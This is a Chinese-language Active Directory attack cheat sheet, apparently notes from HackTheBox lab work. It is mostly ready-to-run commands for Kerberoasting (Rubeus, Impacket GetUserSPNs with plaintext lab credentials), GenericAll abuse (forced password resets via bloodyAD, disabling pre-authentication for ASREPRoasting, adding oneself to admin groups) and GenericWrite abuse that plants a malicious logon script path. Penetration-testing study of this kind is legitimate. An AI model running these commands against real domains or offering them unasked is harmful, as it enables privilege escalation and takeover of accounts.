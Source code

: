 ##### 拥有域内账户凭据，同时有 kerberoastable 用户列出
- **0x01 Rubeus.exe**
```powershell
C:\windows\system32\spool\drivers\color\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

- **0x02 GetUserSPNs.py**
```bash
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <IP> htb.local/amanda:Ashare1972
```


- ### GenericAll 滥用
##### 对 `用户` 有 GenericAll 权限
**0x01 直接修改用户密码**
PS Session
```powershell
net user <username> <password> /domain
```

Linux 的操作：
```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'xekOnerR!'
```

**0x02 禁用用户的预身份验证，使其帐户容易受到 ASREPRoasting 的攻击**
```bash
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

**0x03 影子凭证 （见下方 `AddKeyCredentialLink`） 推荐使用这种滥用方式**

##### 对 `组` 有 GenericAll 权限
将自己添加到域管理员组
```bash
0x01  net group "GROUP" USERNAME /add /domain
0x02  Add-ADGroupMember -Identity "GROUP" -Members USERNAME
0x03  Add-NetGroupUser -UserName spotUSERNAMEless -GroupName "GROUP" -Domain "DOMAIN"
```

**Linux 将自己添加到组 ：**
见下方 Self 滥用

[+] **对域控有所有权 ：** Kerberos 基于资源的约束委派  (见  [CheckList -  Windows , Actice Directory 攻击向量(Priv Esc , CMD)](CheckList%20-%20%20Windows%20,%20Actice%20Directory 攻击向量(Priv%20Esc%20,%20CMD).md) )


- ### GenericWrite 滥用
**更改用户的登录脚本路径，以便在用户登录时执行恶意脚本**
```bash
Set-DomainObject -Identity <User> -SET @{scriptpath="自定义脚本"}
```
例:
```
echo 'dir C:\users\<Users>\desktop\ > C:\programdata\dir.txt' > dir.ps1
Set-DomainObject -Identity <User> -SET @{scriptpath="C:\\programdata\\dir.ps1"}
```
